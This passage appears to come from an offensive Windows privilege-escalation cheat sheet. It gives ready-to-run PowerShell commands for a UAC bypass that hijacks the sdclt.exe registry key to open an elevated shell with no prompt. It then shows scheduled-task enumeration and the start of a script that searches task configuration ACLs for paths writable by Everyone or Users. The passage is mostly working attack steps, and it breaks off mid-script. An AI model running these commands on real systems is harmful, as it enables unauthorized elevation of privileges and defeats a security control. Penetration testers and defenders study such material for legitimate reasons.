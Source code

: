 1. Set registry entries to hijack `sdclt.exe`:
   ```powershell
   $command = "powershell.exe -Command Start-Process powershell -Verb runAs"
   Set-ItemProperty -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Name "(Default)" -Value $command
   Set-ItemProperty -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Name "DelegateExecute" -Value ""
   ```
2. Run `sdclt.exe` to open a high-integrity PowerShell session:
   ```powershell
   Start-Process sdclt
   ```
3. A new elevated PowerShell session will now be available without a UAC prompt.

# Scheduled Tasks

#### Scheduled Task Enumeration

- List All Scheduled Tasks:
	```powershell
	Get-ScheduledTask
	```
- List All Scheduled Tasks with Task Owners and Commands:
	```powershell
	schtasks /query /fo LIST /v
	```
- Display Detailed Information for a Specific Scheduled Task:
	```powershell
	Get-ScheduledTaskInfo -TaskName "<task_name>"
	```
- Identify Scheduled Tasks Not Running as SYSTEM:
	```powershell
	Get-ScheduledTask | Where-Object { $_.Principal.UserId -ne "SYSTEM" } | Out-File "C:\Path\To\Outfile.txt"
	```
- List Tasks Running as SYSTEM:
	```powershell
	Get-ScheduledTask | Where-Object { $_.Principal.UserId -eq "SYSTEM" } | Out-File "C:\Path\To\Outfile.txt"
	```

#### Identify Writable Scheduled Task Configuration Paths
```powershell
# Set up output file paths
$Step1_OutputFilePath = "C:\Step1_Scheduled_Tasks_Configuration_ACL.txt"
$Step2_OutputFilePath = "C:\Step2_Scheduled_Tasks_Configuration_ACL_Filtered.txt"

# Set a large width to prevent line wrapping
$PSDefaultParameterValues['Out-File:Width'] = 300

# Initialize Step 1 output file (ACL data collection)
New-Item -Path $Step1_OutputFilePath -ItemType File -Force | Out-Null
New-Item -Path $Step2_OutputFilePath -ItemType File -Force | Out-Null

# Regex patterns for matching ACL entries
$patterns = @(
    "Everyone .*Allow.*  .*FullControl.*",
    "Everyone .*Allow.*  .*Modify.*",
    "Everyone .*Allow.*  .*Write.*",
    "Everyone .*Allow.*  .*Delete.*",
    "Everyone .*Allow.*  .*TakeOwnership.*",
    "Everyone .*Allow.*  .*ChangePermissions.*",
    "BUILTIN\\Users .*Allow.*  .*FullControl.*",
    "BUILTIN\\Users .*Allow.*  .*Modify.*",
```